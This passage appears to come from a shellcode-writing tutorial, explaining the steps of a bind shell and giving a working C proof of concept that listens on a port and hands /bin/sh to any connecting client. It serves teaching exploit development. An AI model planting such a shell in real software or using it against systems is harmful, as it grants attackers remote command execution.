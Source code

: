 The shellcode can be divided into the following steps:

1. Create a socket with a call to the [socket](http://linux.die.net/man/7/socket) function.
2. Bind the socket to localhost and a specified port with a [bind](http://linux.die.net/man/2/bind) call.
3. Make the socket accept incoming connections with a call to [listen](http://linux.die.net/man/2/listen).
4. Wait for a connection and accept it, create a new file descriptor from it. With a call to [accept](http://linux.die.net/man/2/accept).
5. Redirect the wanted file descriptors to the socket, common is to redirect stdin, stdout, stderr. Do this with [dup2](http://linux.die.net/man/2/dup2).
6. Start a shell with an [execve](http://linux.die.net/man/2/execve) call.

Seems reasonable simple with all steps broken down.
I will first make a working POC in C and then manually convert it to assembly.
This [page](http://www.gta.ufrj.br/ensino/eel878/sockets/sockaddr_inman.html) was a good reference for the sockaddr type given in the bind parameter.

```c
#include <sys/socket.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <unistd.h>

#define PORT 4451

int main(char* arg[], int argv){
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(PORT);
    inet_aton("127.0.0.1", &addr.sin_addr.s_addr);

    int sockFD = socket(AF_INET, SOCK_STREAM, 0);

    bind(sockFD, (struct sockaddr *) &addr, sizeof(addr));

    listen(sockFD, 0);

    int sizeOfAddr = sizeof(addr);
    int newFD = accept(sockFD, (struct sockaddr *) &addr, &sizeOfAddr);

    dup2(newFD, STDOUT_FILENO);
    dup2(newFD, STDIN_FILENO);
    dup2(newFD, STDERR_FILENO);

    char *argvV[] = {"/bin/sh",NULL};
    char *envp[] = {NULL};
    execve("/bin/sh", argvV, envp );

    return 0;
}
```
